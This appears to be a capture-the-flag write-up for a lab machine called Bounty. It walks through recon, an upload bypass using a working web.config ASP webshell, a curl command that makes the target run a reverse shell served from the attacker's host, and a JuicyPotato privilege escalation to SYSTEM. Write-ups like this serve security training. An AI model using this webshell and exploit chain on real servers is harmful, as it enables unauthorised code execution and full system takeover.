


# Bounty

## Machine Info



## Recon

### Port

```console
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Path

- `/transfer.aspx`: upload file
- `/uploadedfiles`: file upload directory

```console
└─╼$ gobuster dir -u http://10.129.22.59/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 128 -x php,aspx -b 400,404 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.22.59/
[+] Method:                  GET
[+] Threads:                 128
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404,400
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,aspx
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/UploadedFiles        (Status: 301) [Size: 157] [--> http://10.129.22.59/UploadedFiles/]
/uploadedFiles        (Status: 301) [Size: 157] [--> http://10.129.22.59/uploadedFiles/]
/uploadedfiles        (Status: 301) [Size: 157] [--> http://10.129.22.59/uploadedfiles/]
===============================================================
Finished
===============================================================
```

## Foothold

### Upload web.config as aspx

Straghtly uploading aspx file is restricted -> upload web.config and executed as aspx file by iis server.

> The web.config file plays an important role in storing IIS7 (and higher) settings. It is very similar to a .htaccess file in Apache web server. Uploading a .htaccess file to bypass protections around the uploaded files is a known technique. In IIS7 (and higher), it is possible to do similar tricks by uploading or making a web.config file.
>
> - [Bypass Upload Restrictions and Evade Detection | Fgsec](https://fgsec.net/posts/Bypass-Upload-Restrictions-and-Evade-Detection/)
> - [Upload a web.config File for Fun & Profit | Soroush Dalili (@irsdl) Blog](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

aspx payload:

```aspx
<?xml version="1.0" encoding="UTF-8"?><configuration><system.webServer><handlers accessPolicy="Read, Script, Write"><add name="new_policy" path="*.config" verb="GET" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /></handlers><security><requestFiltering><fileExtensions><remove fileExtension=".config" /></fileExtensions><hiddenSegments><remove segment="web.config" /></hiddenSegments></requestFiltering></security></system.webServer><appSettings></appSettings></configuration>
<% 

Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)

%>
```

**Exploit**:



```console
└─╼$ curl 'http://10.129.22.59/uploadedfiles/web.config?cmd=whoami'
<?xml version="1.0" encoding="UTF-8"?><configuration><system.webServer><handlers accessPolicy="Read, Script, Write"><add name="new_policy" path="*.config" verb="GET" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /></handlers><security><requestFiltering><fileExtensions><remove fileExtension=".config" /></fileExtensions><hiddenSegments><remove segment="web.config" /></hiddenSegments></requestFiltering></security></system.webServer><appSettings></appSettings></configuration>
bounty\merlin
```

**MSF Session**: Generate a meterpreter served by local smb service, and execute it using web.config command

```console
└─╼$ curl 'http://10.129.22.59/uploadedfiles/web.config?cmd=\\10.10.16.24\qwe\reverse.exe'

---------------------------------------------------------------------

└─╼$ sudo rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.22.59] 49158
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
bounty\merlin

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

## Privilege Escalation

### Enumeration

systeminfo

```console
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
OS Version:                6.1.7600 N/A Build 7600
System Type:               x64-based PC
```

### Juicy Potato

> https://juggernaut-sec.com/seimpersonateprivilege/
> https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
> https://ohpe.it/juicy-potato/CLSID/

1. Upload JuicyPotato and reverse shell file (generated by msf revshell)
2. Execute JuicyPotato to trigger reverse shell
3. Receive revshell using nc

```console
c:\qwe>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5084-30B0

 Directory of c:\qwe

02/20/2024  08:41 AM    <DIR>          .
02/20/2024  08:41 AM    <DIR>          ..
02/20/2024  07:54 AM             7,168 admin.exe
02/20/2024  08:41 AM           347,648 JuicyPotato.exe
               2 File(s)        354,816 bytes
               2 Dir(s)  11,767,451,648 bytes free

--------------------------------------------------------------------

c:\qwe>JuicyPotato.exe -t * -p admin.exe -l 1234
JuicyPotato.exe -t * -p admin.exe -l 1234
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1234
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK

--------------------------------------------------------------------

└─╼$ sudo rlwrap -cAr nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.22.59] 49163
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

## Exploit Chain

port scan & path recon -> iis server with file upload function (no aspx upload) & upload dir -> upload web.config as an aspx file -> upload aspx webshell -> user shell -> enum: SeImpersonatePrivilege -> JuicyPotato PrivEsca -> system priv shell
